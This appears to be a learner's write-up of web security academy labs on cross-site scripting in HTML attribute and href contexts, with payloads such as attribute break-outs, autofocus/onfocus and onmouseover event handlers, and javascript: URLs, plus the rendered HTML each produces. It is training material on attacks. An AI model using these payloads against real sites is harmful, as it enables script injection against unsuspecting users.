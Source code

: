 `"><script>alert(document.domain)</script>`

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:

`" autofocus onfocus=alert(document.domain) x="`

The above payload creates an onfocus event that will execute JavaScript when the element receives the focus, and also adds the autofocus attribute to try to trigger the onfocus event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup. 

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function. 

Input `test` in the search box, the html rendered as:
```html
<input type="text" placeholder="Search the blog..." name="search" value="test">
```
We could escape by adding `">`

The payload `"><img src=1 onerror=alert(1)>` rendered as    
```html
<input type="text" placeholder="Search the blog..." name="search" value="" &gt;&lt;img="" src="1" onerror="alert(1)>&quot;">
```

Note that the char `"` is not be encoded, so the payload could be `"onmouseover="alert(1)" pwned`

```html
<input type="text" placeholder="Search the blog..." name="search" value="" onmouseover="alert(1)" pwned"="">
```

### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script. For example:

`<a href="javascript:alert(document.domain)">`

The html is     
```html
<a id="author" href="http://website.com">namehere</a>
```
We can change the website content to `javascript:alert(1)` and solve the lab.
```html
<a id="author" href="javascript:alert(1)">solvelab</a>
```
